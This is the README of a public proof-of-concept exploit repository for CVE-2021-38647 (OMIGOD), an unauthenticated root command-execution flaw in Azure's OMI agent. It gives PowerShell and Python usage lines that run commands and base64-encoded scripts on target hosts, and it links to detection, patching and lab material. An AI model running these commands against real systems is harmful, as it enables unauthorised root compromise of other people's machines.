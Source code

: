 # CVE-2021-38647

CVE-2021-38647 - POC to exploit unauthenticated RCE #OMIGOD

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/AlteredSecurity](https://github.com/AlteredSecurity) |
| Url      | [https://github.com/AlteredSecurity/CVE-2021-38647](https://github.com/AlteredSecurity/CVE-2021-38647)                                               |
| Stars    | 61                                                          |
| License  | Other                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# CVE-2021-38647

CVE-2021-38647 - POC to exploit unauthenticated RCE `#OMIGOD` on Azure UNIX/Linux VMs!

## Details

In Microsoft's Azure, the OMI application gets installed automatically when services like Azure Automation Accounts, Update Management, Log Analytics, Configuration Management, etc., are used for UNIX/Linux VM's. The OMI application also exposes the service over port 5986 if the Configuration Management service is used for managing the machine remotely. 

Anyone with network access to vulnerable endpoint can send a request that leverages the SCXcore provider without the Authorization header and execute OS commands on the target machine with root privileges!

This vulnerability is now fixed but always worth to check against Linux VMs in Azure.

## Usage

### PowerShell

```
# Execute command on the target machine.
Invoke-CVE-2021-38647 -TargetIP 127.0.0.1 -TargetPort 5986 -Command whoami
```

![](images/poc01.png)

```
# Execute script on the target machine.
$MyScript = @"
id
whoami
uname -a
"@
$enc = [Convert]::ToBase64String([Text.Encoding]::UTF8.GetBytes($MyScript))
Invoke-CVE-2021-38647 -TargetIP 1.1.1.1 -TargetPort 5986 -Script $enc
```

![](images/poc02.png)

### Python

```
# Execute command on the target machine.
python CVE-2021-38647.py -t 40.87.92.228 -p 5986 -c id
```

![](images/poc03.png)

```
# Execute script on the target machine.
$MyScript = @"
id
whoami
uname -a
"@
$enc = [Convert]::ToBase64String([Text.Encoding]::UTF8.GetBytes($MyScript)) #  For Windows

echo 'id' | base64 # For Linux

python CVE-2021-38647.py -t 40.87.92.228 -s ZWNobyAiIg0KZWNobyAiSGVsbG8iDQplY2hvICJHb29kYnllIg==
```

![](images/poc04.png)

## Deploy Test Environment

ARM Template to deploy on Azure - https://github.com/OTRF/Azure-Sentinel2Go/tree/master/grocery-list/Linux/demos/CVE-2021-38647-OMI

Deploy without Azure - https://rootsecdev.medium.com/creating-your-own-private-pwn-lab-for-omi-exploitation-b6919fc63956

## Detection & Mitigations

https://techcommunity.microsoft.com/t5/azure-sentinel/hunting-for-omi-vulnerability-exploitation-with-azure-sentinel/ba-p/2764093

To mitigate the vulnerability we need to update OMI agent to version 1.6.8.1 or above.

## Reference Links

https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-38647 

https://www.wiz.io/blog/omigod-critical-vulnerabilities-in-omi-azure 

https://rootsecdev.medium.com/creating-your-own-private-pwn-lab-for-omi-exploitation-b6919fc63956 

https://techcommunity.microsoft.com/t5/azure-sentinel/hunting-for-omi-vulnerability-exploitation-with-azure-sentinel/ba-p/2764093 

https://github.com/OTRF/Azure-Sentinel2Go/tree/master/grocery-list/Linux/demos/CVE-2021-38647-OMI

## Blog

https://www.alteredsecurity.com/post/omigod-cve-2021-38647

## Credit

WIZ Team - https://www.wiz.io/blog/omigod-critical-vulnerabilities-in-omi-azure

## Disclaimer

This project is meant for educational purposes only. 
The creator takes no responsibility of any mis-use of this tool.



## Get the content

```
git clone https://github.com/AlteredSecurity/CVE-2021-38647
cd CVE-2021-38647
```

{% embed url="https://github.com/AlteredSecurity/CVE-2021-38647" %}

<figure><img src="https://avatars.githubusercontent.com/u/71595940?v=4" alt=""><figcaption><p>AlteredSecurity</p></figcaption></figure>
